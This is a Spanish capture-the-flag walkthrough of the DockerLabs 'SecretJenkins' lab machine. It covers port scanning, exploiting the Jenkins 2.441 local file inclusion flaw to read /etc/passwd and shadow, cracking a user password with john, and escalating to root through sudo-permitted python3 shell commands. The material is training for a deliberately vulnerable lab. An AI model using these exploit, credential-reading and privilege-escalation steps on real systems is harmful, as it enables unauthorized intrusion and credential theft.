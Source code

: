 #MAQUINA #DOCKERLABS #FACIL 
#LFI 
<hr>
# RECONOCIMIENTO

Vamos a resolver **SecretJenkins** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS --min-rate 5000 -vvv -n -Pn -p- 172.17.0.2 --open
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-05 11:53 CET
Initiating ARP Ping Scan at 11:53
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 11:53, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 11:53
Scanning 172.17.0.2 [65535 ports]
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 8080/tcp on 172.17.0.2
Completed SYN Stealth Scan at 11:53, 0.49s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2024-12-05 11:53:24 CET for 1s
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 64
8080/tcp open  http-proxy syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.71 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)


```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **8080(HTTP)** y el puerto **22(SSH)** abiertos.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p22,8080 172.17.0.2                         
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-05 11:54 CET
Nmap scan report for pressenter.hl (172.17.0.2)
Host is up (0.000025s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 94:fb:28:59:7f:ae:02:c0:56:46:07:33:8c:ac:52:85 (ECDSA)
|_  256 43:07:50:30:bb:28:b0:73:9b:7c:0c:4e:3f:c9:bf:02 (ED25519)
8080/tcp open  http    Jetty 10.0.18
|_http-server-header: Jetty(10.0.18)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry 
|_/
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.73 seconds



```

   ```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-05 11:54 CET
Nmap scan report for pressenter.hl (172.17.0.2)
Host is up (0.0000030s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy
| http-enum: 
|   /robots.txt: Robots file
|   /api/: Potentially interesting folder
|_  /secured/: Potentially interesting folder (401 Unauthorized)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 3.30 seconds

whatweb "http://172.17.0.2:8080/"
http://172.17.0.2:8080/ [403 Forbidden] Cookies[JSESSIONID.9839292f], Country[RESERVED][ZZ], HTTPServer[Jetty(10.0.18)], HttpOnly[JSESSIONID.9839292f], IP[172.17.0.2], Jenkins[2.441], Jetty[10.0.18], Meta-Refresh-Redirect[/login?from=%2F], Script, UncommonHeaders[x-content-type-options,x-hudson,x-jenkins,x-jenkins-session]
http://172.17.0.2:8080/login?from=%2F [200 OK] Cookies[JSESSIONID.9839292f], Country[RESERVED][ZZ], HTML5, HTTPServer[Jetty(10.0.18)], HttpOnly[JSESSIONID.9839292f], IP[172.17.0.2], Jenkins[2.441], Jetty[10.0.18], PasswordField[j_password], Title[Sign in [Jenkins]], UncommonHeaders[x-content-type-options,x-hudson,x-jenkins,x-jenkins-session], X-Frame-Options[sameorigin]


```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

**Conclusiones:** Posible **Jenkins** en el puerto **8080**.

# EXPLOTACION

Al revisar la web que hay en el puerto **8080** , usamos **searchsploit**:

   ```bash
searchsploit jenkins 
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                      |  Path
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
CloudBees Jenkins 2.32.1 - Java Deserialization                                                                     | java/dos/41965.txt
Jenkins - Script-Console Java Execution (Metasploit)                                                                | multiple/remote/24272.rb
Jenkins - XStream Groovy classpath Deserialization (Metasploit)                                                     | multiple/remote/43375.rb
Jenkins 1.523 - Persistent HTML Code                                                                                | php/webapps/30408.txt
Jenkins 1.578 - Multiple Vulnerabilities                                                                            | multiple/webapps/34587.txt
Jenkins 1.626 - Cross-Site Request Forgery / Code Execution                                                         | java/webapps/37999.txt
Jenkins 1.633 - Credential Recovery                                                                                 | java/webapps/38664.py
Jenkins 2.137 and Pipeline Groovy Plugin 2.61 - ACL Bypass and Metaprogramming Remote Code Execution (Metasploit)   | java/remote/46572.rb
Jenkins 2.150.2 - Remote Command Execution (Metasploit)                                                             | linux/webapps/46352.rb
Jenkins 2.235.3 - 'Description' Stored XSS                                                                          | java/webapps/49237.txt
Jenkins 2.235.3 - 'tooltip' Stored Cross-Site Scripting                                                             | java/webapps/49232.txt
Jenkins 2.235.3 - 'X-Forwarded-For' Stored XSS                                                                      | java/webapps/49244.txt
Jenkins 2.441 - Local File Inclusion                                                                                | java/webapps/51993.py
Jenkins 2.63 - Sandbox bypass in pipeline: Groovy plug-in                                                           | java/webapps/48904.txt
Jenkins < 1.650 - Java Deserialization                                                                              | java/remote/42394.py
Jenkins build-metrics plugin 1.3 - 'label' Cross-Site Scripting                                                     | java/webapps/47598.py
Jenkins CI Script Console - Command Execution (Metasploit)                                                          | multiple/remote/24206.rb
Jenkins CLI - HTTP Java Deserialization (Metasploit)                                                                | linux/remote/44642.rb
Jenkins CLI - RMI Java Deserialization (Metasploit)                                                                 | java/remote/38983.rb
Jenkins Dependency Graph View Plugin 0.13 - Persistent Cross-Site Scripting                                         | java/webapps/47111.txt
Jenkins Gitlab Hook Plugin 1.4.2 - Reflected Cross-Site Scripting                                                   | java/webapps/47927.txt
Jenkins Mailer Plugin < 1.20 - Cross-Site Request Forgery (Send Email)                                              | linux/webapps/44843.py
Jenkins Plugin Script Security 1.49/Declarative 1.3.4/Groovy 2.60 - Remote Code Execution                           | java/webapps/46453.py
Jenkins Plugin Script Security < 1.50/Declarative < 1.3.4.1/Groovy < 2.61.1 - Remote Code Execution (PoC)           | java/webapps/46427.txt
Jenkins Software RakNet 3.72 - Remote Integer Underflow                                                             | multiple/remote/33802.txt
SonarQube Jenkins Plugin - Plain Text Password                                                                      | php/webapps/30409.txt
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

Hay un exploit que se aprovecha de un **LFI** para la version 2.441 de Jenkins.

IMPORTANTE : el script al ejecutarlo sale un error (TypeError: to_bytes() missing required argument 'byteorder' (pos 2)).
**Para corregirlo , a esa función todas las veces que se use, agregarle un segundo argumento -> 'big'** 

   ```bash
python3 51993.py -u "http://172.17.0.2:8080/" -p /etc/passwd                 
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
jenkins:x:1000:1000::/var/jenkins_home:/bin/bash
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
root:x:0:0:root:/root:/bin/bash
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
bobby:x:1001:1001::/home/bobby:/bin/bash
games:x:5:60:games:/usr/games:/usr/sbin/nologin
pinguinito:x:1002:1002::/home/pinguinito:/bin/bash
```

2 USUARIOS -> **bobby** y **pinguinito**

Nos traemos el shadow y hacemos lo siguiente:
```
└─# unshadow passwd shadow > z
                                                                                                                                                                   
└─# john z --show
bobby:chocolate:1001:1001::/home/bobby:/bin/bash

1 password hash cracked, 0 left
```

# ESCALADA PRIVILEGIOS

Buscamos archivos con permisos SUDO:
   ```bash
bobby@2e144b9a6335:~$ sudo -l
Matching Defaults entries for bobby on 2e144b9a6335:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User bobby may run the following commands on 2e144b9a6335:
    (pinguinito) NOPASSWD: /usr/bin/python3

```

Vemos **python3** con permisos SUDO :
   ```bash
bobby@2e144b9a6335:~$ sudo -u pinguinito python3 -c 'import os; os.system("/bin/sh")'
                                                               
$ whoami                                                       
pinguinito

```

YA ESTAMOS COMO PINGUINITO.

Buscamos archivos con permisos SUDO:
   ```bash
   
pinguinito@2e144b9a6335:/opt$ sudo -l
Matching Defaults entries for pinguinito on 2e144b9a6335:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User pinguinito may run the following commands on 2e144b9a6335:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py


```

Vemos **/opt/script.py** con permisos SUDO al ejecutarlo con python3 :
   ```bash
pinguinito@2e144b9a6335:/opt$ sudo -l
Matching Defaults entries for pinguinito on 2e144b9a6335:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User pinguinito may run the following commands on 2e144b9a6335:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
pinguinito@2e144b9a6335:/opt$ cat script.py 
import os
os.execv("/bin/bash",["-p"])
pinguinito@2e144b9a6335:/opt$ sudo /usr/bin/python3 /opt/script.py 
root@2e144b9a6335:/opt# whoami
root
root@2e144b9a6335:/opt# 

```

**YA ESTAMOS COMO ROOT.**